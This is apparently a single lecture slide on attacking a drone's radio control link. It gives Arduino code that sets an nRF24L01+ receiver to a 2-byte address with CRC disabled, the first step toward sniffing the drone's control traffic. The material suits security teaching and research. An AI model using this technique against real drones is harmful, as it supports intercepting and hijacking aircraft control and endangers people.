

# Attack on a Drone’s Radio Control (RC) Link
Attack Steps
uint64_t pipe = 0x00aa;
byte buff[32];
byte chan=10;
byte len = 32;
byte addr_len = 2;
void set_nrf(){
  radio.setDataRate(RF24_250KBPS);
  radio.setCRCLength(RF24_CRC_DISABLED);
  radio.setAddressWidth(addr_len);
  radio.setPayloadSize(len);
  radio.setChannel(chan);
  radio.openReadingPipe(1, pipe);
radio.startListening();  }
Step 1: Configure nRF24L01+ receiver
Set the receiver address width to be 2 bytes. Write 0x00AA or 0x0055 to the AW register. Turn off the Cyclic Redundancy Check (CRC).